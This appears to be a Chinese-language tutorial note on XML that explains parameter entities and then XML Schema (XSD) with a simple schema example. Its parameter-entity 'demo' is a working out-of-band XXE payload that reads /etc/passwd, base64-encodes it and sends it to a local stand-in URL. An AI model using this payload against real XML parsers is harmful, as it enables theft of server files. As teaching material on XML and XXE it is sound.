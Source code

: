 

#### 参数实体

```xml
<!ENTITY % 实体名称 "实体的值">或者<!ENTITY % 实体名称 SYSTEM "URI">
```

参数实体只能在DTD中调用,调用方法:`%实体名称`



#### demo

```dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```



## xsd

**XML Schema 是基于 XML 的 DTD 替代者。**

**XML Schema 描述 XML 文档的结构。**

**XML Schema 语言也称作 XML Schema 定义（XML Schema Definition，XSD）。**

XML Schema:

- 定义可出现在文档中的元素
- 定义可出现在文档中的属性
- 定义哪个元素是子元素
- 定义子元素的次序
- 定义子元素的数目
- 定义元素是否为空，或者是否可包含文本
- 定义元素和属性的数据类型
- 定义元素和属性的默认值以及固定值





### demo

```xml
<?xml version="1.0"?>
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">

<xs:element name="note">
    <xs:complexType>
      <xs:sequence>
	<xs:element name="to" type="xs:string"/>
	<xs:element name="from" type="xs:string"/>
	<xs:element name="heading" type="xs:string"/>
	<xs:element name="body" type="xs:string"/>
      </xs:sequence>
    </xs:complexType>
</xs:element>

</xs:schema>
```